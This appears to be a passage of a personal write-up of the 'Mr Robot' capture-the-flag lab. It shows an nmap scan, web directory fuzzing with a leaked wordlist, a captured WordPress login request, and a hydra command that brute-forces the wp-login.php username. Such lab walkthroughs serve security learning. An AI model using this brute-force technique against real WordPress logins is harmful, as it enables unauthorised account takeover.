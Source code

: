 # Introduction
seems to be a beginner friendly CTF... again :-/  Objective is to find 3 keys so lets get started

# Enumeration
### Nmap
```sh
$ cat nmap/initial
# Nmap 7.95 scan initiated Sun Nov  3 15:45:36 2024 as: nmap -p- -oN nmap/initial 10.10.192.6
Nmap scan report for 10.10.192.6
Host is up (0.039s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT    STATE  SERVICE
22/tcp  closed ssh
80/tcp  open   http
443/tcp open   https
```
*lets check out the http(s) server...*
### http server
when we open the page we are greeted with a grub boot screen and then this
![[Pasted image 20241103155517.png]]
#### Commands
**Prepare:**
	we are greeted with a video...
	[[prepare.webm]]
**Fsociety:**
	we get another video
	[[fsociety.webm]]
**Question:**
	this time we get a slideshow of images... *this is one of them*
	 ![[Pasted image 20241103160958.png]]
**Wakeup:**
	another video...
	[[wakeup.webm]]
**Inform:**
	gets us a screen with a bunch of news letters beneath a few words from mr.robot
	![[Pasted image 20241103160114.png]]
**Join:**
	we got greeted with a dialogue where he asked us to give him a email I tried it with a trash-mail but nothing arrived.. *probably because there is no mail server running on the machine*
	![[Pasted image 20241103161651.png]]

#### robots.txt
```
User-agent: *
fsocity.dic
key-1-of-3.txt
```
these are 2 files on the http server 
* `fsocity.dic` is a wordlist
* `key-1-of-3.txt` is the first key

#### Fuzzing
```
 :: Method           : GET
 :: URL              : http://10.10.192.6/FUZZ
 :: Wordlist         : FUZZ: /home/janosch/git/labs/MrRobotCTF/loot/fsocity.dic
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: all
 :: Filter           : Response status: 404
________________________________________________

images                  [Status: 301, Size: 234, Words: 14, Lines: 8, Duration: 57ms]
css                     [Status: 301, Size: 231, Words: 14, Lines: 8, Duration: 38ms]
image                   [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 702ms]
license                 [Status: 200, Size: 309, Words: 25, Lines: 157, Duration: 39ms]
video                   [Status: 301, Size: 233, Words: 14, Lines: 8, Duration: 38ms]
feed                    [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 646ms]
audio                   [Status: 301, Size: 233, Words: 14, Lines: 8, Duration: 38ms]
admin                   [Status: 301, Size: 233, Words: 14, Lines: 8, Duration: 38ms]
blog                    [Status: 301, Size: 232, Words: 14, Lines: 8, Duration: 38ms]
Image                   [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 616ms]
intro                   [Status: 200, Size: 516314, Words: 2076, Lines: 2028, Duration: 44ms]
rss                     [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 646ms]
login                   [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 674ms]
readme                  [Status: 200, Size: 64, Words: 14, Lines: 2, Duration: 40ms]
Year201120102009200820072006200520042003200220012000199919981997199619951994199319921991199019891988198719861985198419831982198119801979197819771976197519741973197219711970196919681967196619651964196319621961196019591958195719561955195419531952195119501949194819471946194519441943194219411940193919381937193619351934193319321931193019291928192719261925192419231922192119201919191819171916191519141913191219111910190919081907190619051904190319021901 [Status: 403, Size: 657, Words: 16, Lines: 10, Duration: 38ms]
..Snip..(loop)
```
##### /login
![[Pasted image 20241103173548.png]]
looks like a Wordpress login screen lets try brute-forcing for the username

# Vulnerability Assessment
### /login
lets try to find the right request using burp
```HTTP
POST /wp-login.php HTTP/1.1
Host: 10.10.237.121
Content-Length: 100
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://10.10.237.121
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.6668.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.10.237.121/wp-login.php
Accept-Encoding: gzip, deflate, br
Cookie: wordpress_test_cookie=WP+Cookie+check
Connection: keep-alive

log=user&pwd=pass&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.237.121%2Fwp-admin%2F&testcookie=1
```

# Exploitation
built this command with hydra and found a username
```sh
$ hydra -L fsocity.dic -p pass http-post-form://10.10.237.121"/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.237.121%2Fwp-admin%2F&testcookie=1:F=Invalid username" -I

..Snip..

[80][http-post-form] host: 10.10.237.121   login: Elliot   password: pass
[80][http-post-form] host: 10.10.237.121   login: elliot   password: pass
```
now lets try to find the password

_..brute forcing took a bit too long and I realized that I have to remove the duplicates from the wordlist.._
```sh
sort fsocity.dic | uniq > fsocity.dic.uniq
```
the size difference is quiet noticeable
```
-rw-r--r-- 1 janosch wheel 7245381 fsocity.dic
-rw-r--r-- 1 janosch wheel   96747 fsocity.dic.uniq
```

